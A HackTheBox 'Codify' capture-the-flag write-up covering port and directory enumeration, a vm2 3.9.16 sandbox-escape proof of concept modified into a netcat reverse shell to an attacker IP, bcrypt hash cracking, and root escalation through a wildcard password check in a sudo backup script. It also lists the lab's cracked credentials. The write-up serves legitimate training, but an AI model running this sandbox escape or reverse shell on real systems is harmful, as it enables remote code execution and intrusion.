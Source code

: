 ```yaml
---
title: "Codify"
date: 2024-04-26
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "codify", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Credentials

| Username | Password              | Hash | Source |
| -------- | --------------------- | ---- | ------ |
| joshua   | spongebob1            |      |        |
| root     | kljh12k3jhaskjh12kjh3 |      |        |

## Enumeration

>- Navigating to the website shows service name and version which is `vm2 3.9.16`

### Nmap

```sh
└─$ nmap -sC -sV -p- 10.10.11.239 --open      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-30 10:51 AEST
Nmap scan report for 10.10.11.239
Host is up (0.023s latency).
Not shown: 65136 closed tcp ports (conn-refused), 396 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### 80-HTTP

![screenshot](/assets/images/codify1.png)

### Web

![screenshot](/assets/images/codify2.png)

![screenshot](/assets/images/codify3.png)

- vm2 3.9.16

### Gobuster

```sh
└─$ gobuster dir -u http://codify.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://codify.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/editor               (Status: 200) [Size: 3123]
/about                (Status: 200) [Size: 2921]
/.                    (Status: 200) [Size: 2269]
/About                (Status: 200) [Size: 2921]
/Editor               (Status: 200) [Size: 3123]
/server-status        (Status: 403) [Size: 275]
/ABOUT                (Status: 200) [Size: 2921]
Progress: 63088 / 63089 (100.00%)
===============================================================
```

## Initial Access

>- In the `vm2` github repo, there are 8 critical security issues. (sandbox escape).
- Tying the one that does not return `Object Promise` (JavaScript Async API) and modifying the payload to trigger reverse shell gives initial acces as user `svc`. 

## Initial Access

https://github.com/advisories/GHSA-ch3r-j5x3-6q2m

PoC: https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

- Go to vm2 github -> Security tab
- Try the ones that do not return `object Promise`

![screenshot](/assets/images/codify4.png)

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

Modified payload

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.50 9001 >/tmp/f").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![screenshot](/assets/images/codify5.png)

![screenshot](/assets/images/codify7.png)

## Lateral Movement

>- In the `/var/www` directory, there is another directory that was not visible externally : `contacts.` 
	- Inside this directory, there is a `tickets.db`.
	- Upon downloading and opening the db, user credentials are obtained. 
		- Cracking the hash gives the password for joshua.
- SSH as joshua with the obtained creds. 

### Linpeas

![screenshot](/assets/images/codify8.png)

![screenshot](/assets/images/codify9.png)

![screenshot](/assets/images/codify10.png)

![screenshot](/assets/images/codify11.png)

Checking `/var/www`, there is a contacts directory with `tickets.db`.

![screenshot](/assets/images/codify12.png)

![screenshot](/assets/images/codify13.png)

Check hash cat modes 
3200 bcrypt. 

```sh 
hashcat -m 3200 joshua /usr/share/wordlists/rockyou.txt
```

![screenshot](/assets/images/codify14.png)

#### Joshua

ssh as joshua

![screenshot](/assets/images/codify15.png)

## Privilege Escalation

>- `sudo -l`, we can see that we can execute `/opt/scripts/mysql-backup.sh` script as root. 
	- The script prompts the user to enter the _MySQL_ password for the specified database user and compares the entered password `USER_PASS` with the one retrieved from the file `DB_PASS`. 
		- If the user enters `*` as their password, the match will be evaluated as true. 
	- The script then passes the password to _mysqldump_ but it doesn't make the comparison with the user input password. The one that is passed is from the credential file in `/root/.creds`. 
		- `DB_PASS=$(/usr/bin/cat /root/.creds)`

```sh
/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" |
/usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
```
-> Can view the real password by using a process snooping tool like _pspy_. 

![screenshot](/assets/images/codify21.png)

`su root` .

![screenshot](/assets/images/codify16.png)

![screenshot](/assets/images/codify17.png)

![screenshot](/assets/images/codify19.png)

Provide `*` as the password.

Pspy captures the root password for mysql.  

```sh
mysql : kljh12k3jhaskjh12kjh3
```

![screenshot](/assets/images/codify18.png)

![screenshot](/assets/images/codify20.png)
